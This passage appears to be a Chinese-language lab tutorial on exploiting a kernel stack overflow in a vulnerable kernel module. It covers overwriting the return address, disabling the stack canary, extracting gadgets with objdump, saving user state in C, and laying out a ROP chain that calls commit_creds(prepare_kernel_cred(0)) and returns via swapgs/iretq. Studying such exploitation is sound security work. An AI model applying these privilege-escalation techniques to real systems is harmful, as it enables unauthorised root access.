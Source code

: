 在`buf_overflow_write`函数下断进入到`memcpy`

![1580095843535](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580095843535.png)

复制过后，可以发下，返回地址被 BBBBBBBB 覆盖了

![1580095892778](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580095892778.png)

继续执行提示Kernel panic那是因为canary的问题，关闭canary保护需要编辑源码中的`.config`文件，注释掉 `CONFIG_CC_STACKPROTECTOR=y` 这一项，大约在349行，然后重新编译内核，重新编译LKM，payload减少canary那8个字节，运行发现RIP停在了0x4141414141414141，也就是劫持了执行流

#### ROP

劫持执行流，利用ROP来实现`commit_creds(prepare_kernel_cred(0))`提权。提权这两个函数的ROP就不分析了，和内核态一样的

ROP执行完提权函数，需要从内核态返回到用户态，64位返回用户态是这两个指令

```assembly
swapgs
iretq
```

内核中的gadget可以从vmlinux中提取出来，不过使用ROPgadget出来的部分不是可执行的，`iretq`可执行的gadget可以这样提取

```shell
objdump -j .text -d vmlinux | grep iretq | head -1
```

其中`iretq`所需的栈结构是

```tex
RIP 	用户地址
CS		代码段选择器
EFLAGS	状态信息
RSP		用户堆栈
SS		堆栈段选择器
```

可以用下面代码获得信息，RSP可以直接&一个局部变量来获取

```c
unsigned long user_cs, user_ss, user_rflags;

static void save_state() {
        asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory");
}
```

所以rop chain就是

```tex
prepare_kernel_cred
commit_creds
swapgs
iretq
RIP
CS
EFLAGS
RSP
SS
```
